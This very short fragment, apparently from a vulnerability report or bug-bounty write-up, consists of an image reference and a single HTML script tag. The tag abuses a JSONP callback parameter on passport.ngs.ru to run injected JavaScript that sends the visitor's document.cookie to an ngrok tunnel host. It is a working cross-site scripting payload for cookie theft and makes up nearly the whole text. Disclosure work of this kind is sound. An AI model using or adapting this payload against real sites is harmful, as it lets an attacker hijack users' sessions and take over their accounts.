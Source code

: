 `<script src="https://passport.ngs.ru/ajax/check?callback=fetch('https://cfd53ab5.ngrok.io/' %2B document.cookie)"></script>`
